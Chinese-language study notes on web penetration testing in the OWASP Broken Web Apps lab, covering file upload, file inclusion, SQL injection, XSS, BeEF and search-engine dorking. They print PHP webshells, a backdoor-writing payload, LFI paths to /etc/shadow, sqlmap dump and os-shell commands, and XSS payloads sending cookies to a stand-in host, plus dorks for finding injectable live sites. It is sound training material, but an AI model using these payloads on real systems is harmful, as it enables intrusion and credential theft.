安全学习笔记


# 安全入门

1. 以Web安全入门
   - 基础知识：前端（HTML、CSS、JS等）、后端（PHP、Python、ASP等）、数据库（MySQL、SQL Server等）
   - 实验环境：靶机的使用（给定漏洞点，进行渗透操作）
   - 实验工具：
     - BurpSuite
     - sqlmap
     - beef xss framework


# Web

​		Web应用是一种BS架构的软件应用，其主要特点是减少了对客户端的性能要求，也即所谓的瘦客户端模式。


## 通信原理

HTTP协议


## Web漏洞

- 文件上传漏洞
- 文件包含漏洞
- SQL注入漏洞
- XSS漏洞


## Webshell

**小马**：一句话木马也称为小马，即整个shell代码量只有一行，一般是系统执行函数。

**大马**：代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙/入侵检测系统检测到

```php
#eval 使用php函数，例如phpinfo()
<?php eval($_REQUEST['cmd']);?>

http://192.168.19.129/dvwa/hackable/uploads/shell.php?cmd=phpinfo();
```

```php
#system 使用Linux系统命令，例如ls,cp,rm...
<?php system($_REQUEST['cmd']);?>

http://192.168.19.129/dvwa/hackable/uploads/shell2.php?cmd=cat%20/etc/passwd
```

**中国菜刀**：

```php
<?php @eval($_POST['chopper']);?>

#说明：REQUEST是在网页端输入变量访问，POST则是使用像中国菜刀值类的工具连接，是C/S架构
```


## 渗透环境

### 环境

- 目标靶机：[OWASP_Broken_Web_Apps_VM_1.2](https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z/download)
  - https://www.owasp.org/index.php/OWASP_Broken_Web_Applications_Project
  - https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z/download

> OWASP Broken Web Applications Project
>
> Broken Web Applications（BWA）项目生成一个虚拟机，运行各种具有已知漏洞的应用程序，供以下人员使用：
>
> - 了解Web应用程序安全性
> - 测试手册评估技术
> - 测试自动化工具
> - 测试源代码分析工具
> - 观察网络攻击
> - 测试WAF和类似的代码技术

- 渗透机：Kali-Linux-2019.3-vmware-amd64
  - https://images.offensive-security.com/virtual-images/kali-linux-2019.4-vmware-amd64.zip

> Kali-Linux
>
> Kali是一款常用的渗透测试系统，主要原因是其内部集成了众多的安全测试工具。


### 工具

- 中国菜刀
- BurpSuite


## 文件上传漏洞

​		文件上传（Upload），web应用没有对用户上传的文件进行严格的限制或检查，致使hacker可以通过该点上传木马文件，从而获得该网站的webshell。

### 实验环境

- OWASP_Broken_Web_Apps_VM_1.2
- Kali-Linux-2019.3-vmware-amd64


### 渗透原理



> 1. 文件上传（File Upload）是大部分Web应用都具备的功能，例如用户上传附件、修改头像、分享图片/视频等
> 2. 正常的文件一般是文档、图片、视频等，Web应用收集之后放入后台存储，需要的时候再调用出来返回
> 3. 如果是恶意文件如PHP、ASP等执行文件绕过Web应用，并顺利执行，则相当于黑客直接拿到了Webshell
> 4. 一旦黑客拿到Webshell，则可以拿到Web应用的数据，删除Web文件，本地提权，进一步拿下整个服务器设置内网
> 5. SQL注入攻击的对象是数据库服务，文件上传漏洞主要攻击Web服务，实际渗透两种两种结合，达到对目标的深度控制


### 漏洞危害

​		没有对上传的文件进行安全检查时，当hacker上传一个执行文件后，即可获得该Web网站的Webshell。

### 实验过程

文件上传界面：



#### 低安全级别

​		低安全模式下，上传任意类型的文件且文件大小没有限制



hack.php一句话木马文件上传成功：



使用中国菜刀连接木马文件：



连接成功，进入肉鸡的文件管理界面：



#### 中安全级别

​		中安全模式下，限制上传文件的类型和大小，但可以绕过类型上传文件【[文件mime类型](https://www.w3school.com.cn/media/media_mimeref.asp)】



设置浏览器代理：



开启BurpSuite代理：



上传hack.php文件：



再BurpSuite中修改上传文件的Content-Type属性为：image/jpeg



文件上传成功：



使用中国菜刀进行连接：



#### 高安全级别

​		高安全模式下，限制上传文件的后缀名和文件大小。上传一句话图片木马。




### 防御手段

- 限制文件大小：根据需求限制上传文件的大小
- 限制文件类型：在HTTP协议中指定上传文件的类型
- 限制文件后缀名：这个比较彻底，因为后缀名与执行该文件的程序相关联（Windows）
- 检查文件内容：文件上传常上传木马文件，匹配文件内容信息以判别文件是否为木马文件


## 文件包含漏洞

​		文件包含 （File Inclusion），

本地文件包含（LFI）：

远程文件包含（RFI）：


### 实验环境



- 网页在执行的过程中包含了另一个文件，当该文件被执行时，会在服务器上创建一个webshell
- 本地文件包含漏洞常通过文件上传的方式，，将恶意包含文件上传到指定路径下
- 远程文件包含漏洞常将包含的文件，指向远程主机上的一个恶意文件


### 原理及危害

​		文件包含漏洞：即File Inclusion，意思时文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。服务器通过php的特性（函数）去包含任意文件，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到自己的目的。


- 文件包含（File Inclusion）即程序通过【包含函数】调用本地或远程文件，依次来实现拓展功能
- 被包含的文件可以是各种文件格式，而当文件里面包含恶意代码，则会形成远程命令执行或文件上传漏洞
- 文件包含漏洞主要发生在有包含语句的环境中，例如PHP所具备include、require等包含函数


文件包含分为两类：

本地文件包含LFI（Local File Inclusion）当被包含的问价在服务器本地时，就形成本地文件包含

远程文件包含RFI（Remote File Inclusion）当被包含的文件在第三方服务器时，叫做远程文件包含


### 实验过程

 文件包含界面：



PHP配置信息：




#### 低安全级别

低安全模式下，没有对文件路径信息进行任何的过滤。



##### 本地文件包含

- 访问本地系统账号信息及其他敏感信息

```shell
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/passwd
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/shadow
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/php5/apache2/php.ini
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/mysql/my.cnf
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/apache2/apache2.conf
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
```

本地文件包含结果展示：



##### 本地文件包含+webshell

**步骤**：

1. 制作一句话图片木马 e.g.	hacker.jpg

```php
<?fputs(fopen("FileInclusion.php","w"),'<?php eval($_POST[pass]);?>')?>
```




2. 上传图片木马文件至服务器

利用文件上传将图片木马上传到服务器上。



3. 执行文件包含并生成后门

利用文件包含执行上传的恶意文件并生成webshell，如下结果表示执行成功



4. 通过菜刀连接webshell



注意：

```php
/var/www/dvwa/hackable/uploads					//dvwa文件上传访问的目录
/var/www/dvwa/vulnerabilities/fi				//dvwa文件包含访问的目录
```


##### 远程文件包含+webshell

步骤：

1. 搭建远程服务器



```shell
# 开启apache服务
service apache2 start 
systemctl start apache2

# 查看apache的状态
systemctl status apache2
```

2. 在远程服务器上放置一个恶意文本文件



```shell
# 路径
cd /var/www/html/
vim hacker.txt

# 文件内容
<?fputs(fopen("FileInclusion.php","w"),'<?php eval($_POST[pass]);?>')?>
```



3. 文件包含执行远程文件并创建后门



4. 通过菜刀连接webshell




#### 中安全级别

中安全模式下，会过滤文件中的HTTP协议头名。



##### 本地文件包含

​		<font color="red">该种限定方式，对本地文件包含没有任何影响，即本地文件包含与低安全模式下的本地文件包含操作一致，具体可参考低安全模式下的本地文件包含操作。</font>

##### 本地文件包含+webshell

​		<font color="red">该种限定方式，对本地文件包含没有任何影响，即本地文件包含与低安全模式下的本地文件包含操作一致，具体可参考低安全模式下的本地文件包含操作。</font>

##### 远程文件包含+webshell

​		中安全模式下，对URL进行了过滤操作，影响到远程文件包含的执行。

```shell
# 绕过方式
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=hthttp://tp://192.168.19.130/hacker.txt
```


#### 高安全级别

高安全模式下，限定了文件包含的具体文件名，但这种做使其灵活性变差。




### 防御手段

- 在执行文件包含时，要对文件的路径进行过滤，防止恶意文件在服务器上生成后门程序。
- 对文件检测，防止文件执行恶意程序


## SQL注入漏洞

​		SQL注入（SQL Injection），在OWASP年度TOP 10安全问题中，注入高居榜首。SQL注入攻击指的是通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进行执行攻击者所要的操作，其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。


1. 对于Web应用程序而言，用户核心数据存储在数据库中，例如：MySQL、SQL Server、Oracle；
2. 通过SQL注入攻击，可以获取、修改、删除数据库信息，并且通过提权来控制web服务器等其他操作；
3. SQL注入即攻击者通过构造特殊的SQL语句，入侵目标系统，致使后台数据库泄露数据的过程；
4. 因为SQL注入漏洞造成的严重危害性，所以常年稳居OWASP TOP10的榜首。


### 实验环境

目标靶机：[OWASP_Broken_Web_Apps_VM_1.2](https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z/download)

渗透测试机：Kali-Linux-2019.3-vmware-amd64


### 原理及危害

1. 拖库导致用户数据泄露
2. 危害Web等应用的安全
3. 失去操作系统的控制权
4. 用户信息被非法买卖
5. 危害企业及国家的安全


### 实验过程

注入流程：

1. 判断是否有SQL注入漏洞；
2. 判断操作系统、数据库和Web应用的类型；
3. 获取数据库信息，包括管理员信息及拖库；
4. 加密信息破解，sqlmap可自动破解；
5. 提升权限获得sql-shell、os-shell、登录应用后台。


注入界面：




#### 手动注入

##### 基于错误的注入

- 错误注入的思想是通过构造特殊的sql语句，根据得到的错误信息，确定sql注入点；
- 通过数据库报错信息，也可以探测到数据库的类型和其他有用信息；
- 通过输入**单引号**，触发数据库异常，通过异常日志诊断数据库类型。

单引号引起的错误注入：



SQL注入语句解析：

```sql
mysql> SELECT first_name, last_name FROM users WHERE user_id = '''
```

页面报错信息：

```php+HTML
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```


##### 基于布尔的注入

​		布尔逻辑注入的思路是闭合SQL语句、构造or和and逻辑语句、注释多余的代码。

- 经典布尔注入语句：```' or 1=1 -- '```


布尔注入操作：



布尔注入结果：



布尔注入原理：

```sql
-- 原始SQL语句
mysql> SELECT first_name, last_name FROM users WHERE user_id = ''

-- 布尔注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' or 1=1 -- ' '
-- 说明：
-- 第一个‘：用于闭合前面的条件
-- or 1=1：得到一个恒真条件
-- -- ：将注释后面的所有语句
```


##### 基于union注入

​		union语句用于联合前面的select查询语句，合并查询更多信息。一般通过错误和布尔注入确认注入点后，便开始通过union语句来获取有效信息。

```sql
-- 猜测数据列数
' union select 1 -- '
' union select 1,2 -- '
' union select 1,2,3 -- '
' union select 1,2,3,4 -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1 -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1,2 -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1,2,3 -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1,2,3,4 -- ' '

-- 获得当前数据库及用户信息
' union select version(),database() -- '
' union select user(),database() -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select version(),database() -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select user(),database() -- ' '
-- 说明：
-- version()：获得数据库版本信息
-- database()：获得当前数据库名
-- usesr()：获得当前用户名

-- 查询数据库中所有表
information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式；
元数据包括数据库名、表名、列数据类型、访问权限、字符集等基础信息

-- sql注入语句解析：
mysql> select * from information_schema.tables\G

-- 查询所有库名
'union select table_schema,1 from information_schema.tables -- '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select table_schema,1 from information_schema.tables -- ' '

-- 同时查询表名及对应库名
'union select table_schema,table_name from information_schema.tables -- '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select table_schema,table_name from information_schema.tables -- ' '

-- 查询数据表
'union select 1,column_name from information_schema.columns where table_name='users' -- '
'union select 1,column_name from information_schema.columns where table_name='USER_PRIVILEGES' -- '
'union select 1,column_name from information_schema.columns where table_name='SCHEMA_PRIVILEGES' -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select 1,column_name from information_schema.columns where table_name='users' -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select 1,column_name from information_schema.columns where table_name='USER_PRIVILEGES' -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select 1,column_name from information_schema.columns where table_name='SCHEMA_PRIVILEGES' -- ' '

-- 查询数据列
'union select NULL,user from users -- '
'union select NULL,password from users -- '
'union select user,password from users -- '
'union select NULL GRANTEE from USER_PRIVILEGES -- '
'union select password,concat(first_name,' ',last_name,' ',user) from users -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select password,concat(first_name,' ',last_name,' ',user) from users -- ' '
```


##### 基于时间的盲注

​		有些数据库对错误信息做了安全配置，使得无法通过以上方式探测到注入点，此时，通过设置sleep语句来探测注入点。


时间盲注操作：

操作.png)

SQL盲注语句解析：

```sql
mysql> mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and sleep(5) -- '
```


#### sqlmap自动注入

​		SQL注入比较好的工具，首推开源工具sqlmap。sqlmap是一个国内外著名的安全稳定性测试工具，可以用来进行自动化检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检索引擎，针对各种不同类型数据库的安全稳定性测试的功能选项，包括获取数据中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命名。

​		sqlmap支持MySQL，Oracle、PostgreSQL，Microsoft SQL Server，Microsoft Access，IBM DB2，SQLite，Firebird，Sybase和SAP MaxDB等数据库的各种安全漏洞检测。


##### GET方法注入

get方法注入：



注入脚本：

```shell
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch --dbms=mysql -p username
```

扫描结果：




获取所有数据库：

```shell
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --dbs
```




获取所有用户：

```shell
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --users
```




sqlmap常用参数：

```shell
# 获取所有用户
--users
# 获取当前用户
--current-user
# 获取所有数据库
--dbs
# 获取当前数据库
--current-db
# 获取指定库中的所有表信息
-D "database_name" --tables
# 获取指定库中的指定表中的所有列信息
-D "database_name" -T "table_name" --columns

# 当下所有数据库
--dump-all
--dump-all --exclude-sysdbs
-D "database_name" -T "table_name" --dump
-D "datebase_name" -T "table_name" -C "username,password" --dump

# 自动化完成
--batch					
```

示例步骤：

```shell
# 获取当前数据库
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch --current-db -p username

# 获取数据库表
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch -D nowasp --tables

# 获取表的字段
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch -D nowasp -T accounts --columns

# 获取表中的数据
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch -D nowasp -T accounts -C "username,password" --dump
```


##### POST方法注入

sqlmap进行POST注入：



注入解析：

```shell
sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id
```

sqlmap进行POST注入结果：


##### 数据获取

```shell
--user
--current-user
--dbs
--current-db
-D "database_name" --tables
-D "database_name" -T "table_name" --columns
--dump-all
--dump-all --exclude-sysdbs
-D "database_name" -T "table_name" -C "username,password" --dump


sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id --users

sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id -D "dvwa" --tables

sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id -D "dvwa" -T "users" --columns

sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id -D "dvwa" -T "users" -C "username,password" --dump
```


##### 提权操作

```shell
--sql-shell
# 与数据库进行交互
--os-shell
# 与操作系统进行交互，但需要对网站目录有写权限，否则无法创建os-shell
--cmd-shell

sql-shell> select * from users;
```


#### 注入点检索

通过Google搜索可能存在注入的页面

```shell
inurl:.php?id=
inurl:.jsp?id=
inurl:.asp?id=
inurl:/admin/login.php
inurl:.php?id= intitle:美女
```

通过百度搜索可能存在注入的页面

```shell
inurl:news.asp?id= site:edu.cn
inurl:news.php?id= site:edu.cn
inurl:news.aspx?id= site:edu.cn
```


### 防御手段

- 与数据库交互的输入中进行严格的检查
- 对一些特殊符号进行限制，阻止其成功构造SQL注入语句


## XSS漏洞

### XSS简介

​		XSS（cross site script）为了避免与样式CSS混淆，所以简称为XSS。XSS是一种经常出现在Web应用中的计算机安全漏洞，也是Web中最主流的攻击方式。XSS是指恶意攻击者利用网站没有对用户提交数据进行**转义处理**或者**过滤不足**的缺点，进而添加一些代码，嵌入到Web页面中。使别的用户访问都会执行相应的嵌入代码，从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。


XSS漏洞存在的主要原因：

- 过于信任客户端提交的数据


XSS主要分类：

- 反射型XSS攻击（Reflected XSS），又称为非持久性跨站点脚本攻击，它是最常见的XSS类型。漏洞产生的原因是攻击者注入的数据反应在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接（即每次攻击需要用户的点击）。
- 存储型XSS（Stored XSS），又称为持久性跨站点脚本，它一般发生的在XSS攻击向量（一般指XSS攻击代码）存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器浏览页面，脚本就执行。持久的XSS相比非持久XSS攻击危害性更大，因为每当用户打开页面，查看内容时脚本将自动执行。


### 实验环境


### 原理解析








### 漏洞危害

- 盗取各类用户账号，如机器登录账号、用户网银账号、各类管理员账号
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 盗窃企业重要的具有商业价值的资料
- 非法转账
- 强制发送电子邮件
- 网站挂马
- 控制受害者机器向其他网站发起攻击


### 实验过程

#### 构造XSS脚本

##### 常用HTML标签

```html
<iframe>
<!-- iframe 元素会创建包含另外一个文档的内联框架（即行内框架） -->

<textarea>
<!-- <textarea> 标签定义多行的文本输入控件 -->
    

<!-- img 元素向网页中嵌入一副图像 -->
    
<script>
<!-- <script> 标签用于定义客户端脚本，比如JavaScript。
      script 元素既可以包含脚本语句，也可以通过src属性指向外部脚本文件。
      必需的type属性规定脚本的MIME类型。
      JavaScript的常见应用是图像操作、表单验证以及动态内容更新。
      -->
```


##### 常用JavaScript方法

```javascript
alert					// alert()方法用于显示带有一条指定信息和一个确认按钮的警告框
window.location			// window.location对象用于获取当前页面的URL，并把浏览器重定向到新的页面
location.href			// 返回当前显示的文档的完整URL
onload					// 一张页面或一副图像完成加载
onsubmit				// 确认按钮被点击
onerror					// 在加载文档或图像时发生错误
```


##### 构造XSS脚本

**弹框警告**：

```html
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
```

说明：
	此脚本实现弹框提示，一般作为漏洞测试或这演示使用，类似SQL注入漏洞测试中的**单引号**，一旦脚本能执行也就意味着后端服务器没有对特殊字符做过滤，也即证明这个页面位置存在XSS漏洞。


**页面嵌套**：

```html
<iframe src="https://www.baidu.com width=300 height=300"></iframe>
<iframe src="https://www.baidu.com width=0 height=0 border=0"></iframe>
```


**页面重定向**：

```html
<script>window.location="https://www.baidu.com"</script>
<script>location.href="https://www.baidu.com"</script>
```


**弹框警告并重定向**：

```html
<script>alert("请移步到我们的新网站");location.href="https://www.baidu.com"</script>
<script>alert('XSS');location.href="https://www.baidu.com/robots.txt"</script>
```

- 这里结合了一些社工 的思路，例如，通过网站内部私信的方式将其发送给其他用户。如果其他用户点击并且相信了这个信息，则可能在另外的站点重新登录账户（克隆网站收集账户）


**访问恶意代码**：

```html
<script scr="http://www.qfedu.com/xss.js"></script>
<script scr="http://BeEF_IP:3000/hook.js"></script>   #结合BeEF收集用户的cookie
```


**巧用图片标签**：

```html


</img>
```


**绕开过滤的脚本：**

```html
大小写：
<ScrIpt>alert('XSS')</SCRipt>

字符编码 采用URL、Base64等编码
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;">Demo</a>

收集用户Cookie
<script>window.open("http://www.hacker.com/cookie.php?cookie="+document.cookie)</script>
<script>document.location="http://www.hacker.com/cookie.php?cookie="+document.cookie</script>
<script>new Image().src="http://www.hacker.com/cookie.php?cookie="+document.cookie;</script>
</img>
<iframe src="'http://www.hacker.com/cookie.php?cookie='+document.cookie"></iframe>
<script>new Image().src="'http://www.hacker.com/cookie.php?cookie='+document.cookie";img.width=0;img.height=0;</script>
```


#### 反射型XSS


#### 存储型XSS

弹窗警告：


获取Cookie：

步骤：

1. 构建收集Cookie服务器



2. 构造XSS代码并植入到Web服务器



cookie_rec.php文件内容：

```php
<?php
	$cookie = $_GET['cookie'];
	$log = fopen("cookie.txt","a");
	fwrite($log,$cookie . "\n");
	fclose($log);
?>
```

将XSS代码植入到Web服务器上：


```html
XSS代码：

<script>window.open('http://192.168.19.130/cookie_rec.php?cookie='+document.cookie)</script>

# 不完全
<script src="http://192.168.19.130/cookie_rec.php?cookie="+document.cookie></script>
```


3. 等待肉鸡触发XSS代码并将Cookie发送到Kali



4. Cookie利用




#### 自动化XSS

##### BeEF简介

​		BeEF（Browser Exploitation Framework），是目前最强大的浏览器开源渗透测试框架，通过XSS漏洞配置JS脚本和Metasploit进行渗透；BeEF是基于Ruby语言编写的，并且支持图形化界面，操作简单；

[官网链接](https://beefproject.com/)


信息收集：

1. 网络发现
2. 主机信息
3. Cookie获取
4. 会话劫持
5. 键盘记录
6. 插件信息


持久化控制：

1. 确认弹框
2. 小窗口
3. 中间人


社会工程：

1. 点击劫持
2. 弹窗告警
3. 虚假页面
4. 钓鱼页面


渗透攻击：

1. 内网渗透
2. Metasploit
3. CSRF攻击
4. DDOS攻击


##### BeEF操作

启动Apache和BeEF：

```shell
root@kali:~# service apache2 start
```



安装BeEF：

```shell
root@kali:~# apt-get install beef-xss
```


XSS注入：




BeEF界面：（一个Windows中招）




命令颜色：

- 绿色：对目标主机生效并且不可见（不会被发现）
- 橙色：对目标主机生效但可能可见（可能被发现）
- 灰色：对目标主机未必生效（可验证下）
- 红色：对目标主机不生效


## Web信息收集

​		Web信息搜集（探测）即Web踩点，主要是掌握目标Web服务的方方面面，是实现Web渗透入侵前的准备工作。

​		Web踩点内容包括操作系统、服务器类型、数据库类型、Web容器、Web语言、域名信息、网站目录....

​		Web信息搜集涉及搜索引擎、网站扫描、域名遍历、指纹识别等工作。


### 实验环境

- 目标靶机：[OWASP_Broken_Web_Apps_VM_1.2](https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z/download)
- 测试渗透机：Win7/Kali


### 搜索引擎


#### Google Hacking

##### site

- 功能：搜索指定的域名的网页内容，可以用来搜索子域名、跟此域名相关的内容
- 示例：

```shell
// 搜索跟zhihu.com相关的网页
site:zhihu.com

// 搜索zhihu.com跟web安全相关的网页
"web安全" site:zhuhu.com

// 在csdn.net搜索跟sql注入相关的内容
"sql注入" site:csdn.net

// 在百度网盘中搜索教程
"教程" site:pan.baidu.com
```


##### filetype

- 功能：搜索指定文件类型
- 示例：

```shell
// 搜索跟安全书籍相关的pdf文件
"web安全" filetype:pdf

// 搜索跟nmap相关的ppt文件
nmap filetype:ppt

// 搜索csdn网站中的pdf文件
site:csdn.net filetype:pdf

// 搜索51cto的pdf文件
filetype:pdf site:www.51cto.com
```


##### inurl

- 功能：搜索url网站存在特定关键字的网页，可以用来搜寻有注入点的网站
- 示例：

```shell
// 搜索网站中有“php?id"的网页
inurl:.php?id=

// 搜索网址中有"view.php=”的网页
inurl:view.php=?

// 搜索网址中有“jsp?id”的网页
inurl:.jsp?id=

// 搜索网址中有“asp?id"的网页
inurl:.asp?id=

// 搜索网址中有”/admin/login.php"的网页
inurl:/admin/login.php

// 搜索网址中有“login”等登录网页
inurl:login
```


##### intitle

- 功能：搜索标题存在特定关键字的网页
- 示例：

```shell
// 搜索网页标题是“后台登录”的相关页面
intitle:后台登录

// 搜索网页标题是“后台管理”的php页面
intitle:后台登录 filetype:php

// 搜索此关键字相关的搜因目录信息
intitle:index of "keyword"

// 搜索根目录相关的索引信息
intitle:index of "parent directory"

// 搜索密码相关的索引目录信息
intitle:index of "password"

// 搜索登录页面信息
intitle:index of "login"

// 搜索后台管理页面信息
intitle:index of "admin"
```


##### intext

- 功能：搜索正文存在特定关键字的网页
- 示例：

```shell
// 搜索Discuz论坛相关的页面
intext:Powered by Discuz

// 搜索wordpress制作的博客网址
intext:powered by wordpress

// 搜索*CMS相关的页面
intext:Powered by *CMS

// 搜索此类网址的后台登录页面
intext:powered by xxx inurl:login
```

##### 常用示例

- 搜索美女/电影等相关网站

```shell
inurl:php?id= intitle:美剧
inurl:php?id= intitle:美女
inurl:php?id= intitle:美女图片 intext:powered by discuz
inurl:php?id= intitle:美女图片 intext:powered by *cms
```

- 搜索用Discuz搭建的论坛

```shell
inurl:php?id= intitle:电影 intext:powered by discuz
intext:"powered by discuz! 7.2" inurl:faq.php intitle:论坛
```

- 搜索使用Struts的相关网站

```shell
intitle:"Struts Program Report"
intitle:"struts program Report" intext:"development mode is enabled."
```


##### 符号

```shell
-keyword	强制结果不要出现此关键字，例如：电影 -黑客
*keyword	模糊搜索，强制结果包含此关键字，例如：电影 一个叫*决定*
"keywoed"	强制搜索结果出现此关键字，例如："web安全"
```


##### 补充


#### [Shodan Hacking](https://shodan.io)

​		Shodan（撒旦搜索引擎）是由Web工程师John Matherly（马瑟利）编写的，被称为“最可怕的搜索引擎”，可扫描一切联网设备。除了常见的Web服务器，还能扫描防火墙、路由器、交换机、摄像头、打印机等一切联网设备。




##### ip

```shell
114.114.114.114
```


##### service/protocol

```shell
http
http country:"DE"
http country:"DE" product:"Apache httpd"
http product:"Apache httpd"

ssh
ssh default password
ssh default password country:"JP"
```


##### keyword

```shell
基于关键词搜索的思路是根据banner信息（设备指纹）来搜索
"default password" country:"TH"
FTP anon successful
```


##### country

```shell
country:cn
country:us
country:jp
```


##### product

```shell
product:"Miscrosoft IIS httpd"
product:"nginx"
product:"Apache httpd"
product:MySQL
```


##### version

```shell
product:MySQL version:"5.1.73"
product:"Miscrosoft IIS httpd" version:"7.5"
```


##### hostname

```shell
hostname:.org
hostname:.edu
```


##### os

```shell
os:"Windows Server 2008 R2"
os:"Windows 7 or 8"
os:"Linux 2.6.x"
```


##### net

```shell
net:110.180.13.0/24
200 ok net:110.180.13.0/24
200 ok country:JP net:110.180.13.0/24
```


##### port

```shell
port:3389
port:445
port:22
port:80
port:443
```


##### 综合示例

```shell
# 搜索日本区开启80端口的设备
country:JP port:80
country:JP port:80 product:"Apache httpd"
country:JP port:80 product:"Apache httpd" city:"Tokyo"
country:JP port:80 product:"Apache httpd" city:"Tokyo" os:"Linux 3.x"

# 搜索日本区使用Linux2.6.x系统的设备
country:JP os:"Linux 2.6.x"
country:JP os:"Linux 2.6.x" port:"80"
country:JP os:"Linux 2.6.x" port:"80" product:"Apache httpd"

# 搜索日本区使用Windows Server系统的设备
country:JP os:"Windows Server 2008 R2"
country:JP os:"Windows Server 2000" port:"445"
country:JP os:"Windows Server 2000" port:"80"

# 搜索日本区使用Misrosoft IIS设备：
country:JP product:"Miscrosoft IIS httpd" version:"7.5"
```


#### [Zoomeye Hacking](https://www.zoomeye.org)

​		Zoomeye（钟馗之眼）是一个面向网络空间的搜索引擎，”国产的Shodan"，由知道创宇出品。

- ip
- os
- app
- service
- port
- product
- country
- ver
- cidr
- hostname
- site
- title
- header
- keywords
- desc




##### 示例

[用户手册](https://www.zoomeye.org/doc?channel=user)


### 目标扫描

#### 实验环境

- 目标靶机：[OWASP_Broken_Web_Apps_VM_1.2](https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z/download)
- 测试渗透机：Win7/Kali


#### [Nmap](https://nmap.org/)

##### Nmap简介

​		Nmap是安全渗透测试领域最强大的开源端口扫描器，能跨平台支持运行。

- https://nmap.org/
